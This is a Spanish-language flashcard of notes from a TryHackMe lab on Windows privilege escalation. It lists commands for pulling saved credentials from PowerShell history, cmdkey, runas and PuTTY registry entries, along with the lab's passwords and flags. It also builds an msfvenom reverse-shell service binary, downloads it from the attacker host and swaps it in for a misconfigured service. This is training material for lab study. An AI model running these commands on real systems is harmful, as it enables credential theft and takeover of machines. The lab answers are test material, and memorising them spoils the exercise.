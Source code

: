 **Flashcard — Windows Privilege Escalation (THM Room)**

---

### Jerarquía de privilegios

* **System > Administrator > Standard users**

---

### Task 3: Harvesting Passwords

**Buscar archivos**

```cmd
dir "[file_name]" /s
```

**Cambiar directorio**

```cmd
cd C:\User\Jack\Desktop
```

**Imprimir archivo**

```cmd
type [file]
```

**Historial PowerShell**

```cmd
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

* Password `julia.jones` → `ZuperCkretPa5z`

**Credenciales IIS (web.config)**

```powershell
cmdkey /list
```

* Password `db_admin` → `098n0x35skjD3`

**Usar credenciales guardadas con runas**

```powershell
runas /savecred /user:mike.katz cmd.exe
dir "\flag*" /s
cd C:\Users\mike.katz\Desktop
type flag.txt
```

* Flag → `THM{WHAT_IS_MY_PASSWORD}`

**PuTTY sessions**

```cmd
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

* Password `thom.smith` → `CoolPass2021`

---

### Task 4: Quick Wins

* Flag `taskusr1` → `THM{TASK_COMPLETED}`

---

### Task 5: Service Misconfigurations

#### Insecure Permissions on Service Executable

**Check config**

```cmd
sc qc WindowsScheduler
icacls "C:\PROGRA~2\SYSTEM~1\WService.exe"
```

**Payload**

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.4.14.198 LPORT=4445 -f exe-service -o rev-svc.exe
sudo python3 -m http.server 8080
```

**Target machine**

```powershell
wget http://10.4.14.198:8080/rev-svc.exe -O rev-svc.exe
cd C:\PROGRA~2\SYSTEM~1\
move WService.exe WService.exe.bkp
move C:\Users\thm-unpriv\rev-svc.exe WService.exe
icacls WService.exe /grant Everyone:F
```

**Restart service**

```cmd
sc stop windowsscheduler
sc start windowsscheduler
```

**Flag**

```cmd
type C:\Users\svcusr1\Desktop\flag.txt
```

* `THM{AT_YOUR_SERVICE}`

---

#### Unquoted Service Paths

* Path vulnerable: `C:\MyProgramms\Disk Sorter Enterprise`

**Payload → rename primer token del path**

```cmd
sc stop "disk sorter enterprise"
sc start "disk sorter enterprise"
```

**Flag**

```cmd
type C:\Users\svcusr2\Desktop\flag.txt
```

* `THM{QUOTES_EVERYWHERE}`

---

#### Insecure Service Permissions

* Reemplazar binario con payload, otorgar permisos y reiniciar servicio.

**Flag**

```cmd
type C:\Users\Administrator\Desktop\flag.txt
```

* `THM{INSECURE_SVC_CONFIG}`

---

